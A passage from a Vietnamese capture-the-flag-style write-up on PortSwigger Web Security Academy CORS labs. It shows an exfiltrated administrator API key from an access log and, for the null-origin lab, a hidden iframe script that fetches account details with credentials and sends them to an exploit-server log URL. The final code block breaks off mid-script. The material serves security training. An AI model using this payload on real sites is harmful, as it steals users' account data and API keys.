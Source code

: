   ```
  
  ```
  Script trên sẽ yêu cầu trình duyệt gửi đi bất kì cookie nào mà trình duyệt đã lưu trữ
  Truy cập vào phần access Log ta thấy được, có thể thấy quản trị viên đã nhấp vào link ta gửi: 
  
  ![image](https://user-images.githubusercontent.com/104350480/225558967-126730ee-925e-4211-bbf5-9597630b53e9.png)

  > %20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22k1fxK3VjvQF8uSZXS9imoeHxNPYpy4sr%22,%20%20%
  
  Decode url ta được:
  
  >   "username": "administrator",  "email": "",  "apikey": "k1fxK3VjvQF8uSZXS9imoeHxNPYpy4sr",  %
  
  Ở đây ta có dược apiKey của administrator và submit solution ta solve được bài lab: k1fxK3VjvQF8uSZXS9imoeHxNPYpy4sr
  
  Ta cũng có thể thử chính trên server máy của mình để xem đoạn code trên thực thi như thế nào:
  
  ![image](https://user-images.githubusercontent.com/104350480/225596284-f8b6b576-ebe1-4aad-988e-7d885073d0bc.png)

  ![image](https://user-images.githubusercontent.com/104350480/225596326-270faee3-ca52-4210-8f98-79fe664490a9.png)
  
  ![image](https://user-images.githubusercontent.com/104350480/225596251-b3740393-ec87-4046-8ef0-edeb27502362.png)

  Dù trên trang web kh hiển thị gì nhưng ta đã lấy được APIkey của user click vào mà ở đây là wiener.
  
  ### [2. Lab: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)<a name='cor2'></a>
  
  - Ở bài trước thì cái Access-Allow-origin ta có thể truy cập với bất kì miền nào.
  Ta test thử ở bài này: 
  
  ![image](https://user-images.githubusercontent.com/104350480/225598124-f7405bef-d38b-464b-9a3b-ace7edd06d02.png)

  Có vẻ không thành công, ta sẽ đi thử tiếp với trường null value:
  
  ![image](https://user-images.githubusercontent.com/104350480/225598652-71c28683-b3e7-41c7-9b62-1d3c858d385f.png)

  Oke vậy bài này ta sẽ khai thác với giá trị null, vẫn vậy bài này cho Access-Control-Allow-Credentials: true nên ta có thể khai thác tương tự như trên và gửi cho admin click vào.
Vẫn như đoạn code trên nhưng ta gần phải thêm trường origin là null thì mới có thể tấn công được. Ở đây ta dùng <iframe>:
Ý tưởng để giải quyết bài lab này là ta sẽ sử dụng một iframe để tạo ra một kết nối đến trang web đích và sử dụng JavaScript để thực hiện một yêu cầu CORS bằng XMLHttpRequest. Khi truy cập trang web đích thông qua iframe, địa chỉ nguồn của yêu cầu CORS sẽ được đặt thành "null" cho phép truy cập từ bất kỳ nguồn nào. 
  
  ```
  <h1>Hello world</h1>
<iframe style="display: none" sandbox="allow-scripts" srcdoc="
<script>

    var req = new XMLHttpRequest();
    
    var url='https://0a6e00c80341ecccc128a7a300a50073.web-security-academy.net'

    req.open('GET',url+'/accountDetails',true);

    req.withCredentials = true;
    req.onreadystatechange = function() {
      if (req.readyState == XMLHttpRequest.DONE){
            fetch('https://exploit-0af5009f03baecd1c119a527014f00eb.exploit-server.net/log?key=' + req.responseText)
    }
  ```